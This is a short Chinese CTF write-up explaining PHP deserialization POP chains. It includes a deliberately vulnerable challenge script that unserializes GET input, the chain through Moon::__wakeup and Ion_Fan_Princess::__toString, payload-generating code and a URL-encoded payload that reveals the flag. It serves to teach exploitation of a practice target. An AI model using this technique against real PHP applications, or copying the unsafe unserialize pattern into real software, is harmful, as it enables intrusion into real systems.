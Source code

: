 ## PHP反序列化POP链
#### POP链构造首先就是要找到头和尾，也就是用户能传入参数的地方（头）和最终要执行函数方法的地方（尾）。找到头尾之后进行反推过程，从尾部开始一步步找到能触发上一步的地方，直到找到传参处，此时完整的POP链就显而易见了。CTF赛中一般尾部就是get flag的方法，头部则是GET/POST传参
~~~
<?php
include "flag.php";
highlight_file(__FILE__);

class Moon{
        public $name="月亮";
        public function __toString(){
                return $this->name;
        }
        public function __wakeup(){
                echo "我是".$this->name."快来赏我";
        }
}

class Ion_Fan_Princess{
        public $nickname="牛夫人";

        public function call(){
                global $flag;
                if ($this->nickname=="小甜甜"){
                        echo $flag;
                }else{
                        echo "以前陪我看月亮的时候，叫人家小甜甜！现在新人胜旧人，叫人家".$this->nickname."。\n";
                        echo "你以为我这么辛苦来这里真的是为了这条臭牛吗?是为了你这个没良心的臭猴子啊!\n";
                }
        }
        public function __toString(){
                $this->call();
                return "\t\t\t\t\t\t\t\t\t\t----".$this->nickname;
        }
}

if (isset($_GET['code'])){
        unserialize($_GET['code']);

}else{
        $a=new Ion_Fan_Princess();
        echo $a;
}
~~~

简单的反序列化pop链：
Moon::__wakeup()==>Ion_Fan_Princess::__toString()==>Ion_Fan_Princess::call()

payload:
~~~
<?php
class Moon{
        public $name;
}
class Ion_Fan_Princess{
        public $nickname;
}

$a=new Moon();
$a->name=new Ion_Fan_Princess();
$a->name->nickname="小甜甜";
echo urlencode(serialize($a));
~~~

payload:
~~~
?code=O%3A4%3A"Moon"%3A1%3A%7Bs%3A4%3A"name"%3BO%3A16%3A"Ion_Fan_Princess"%3A1%3A%7Bs%3A8%3A"nickname"%3Bs%3A9%3A"小甜甜"%3B%7D%7D
~~~
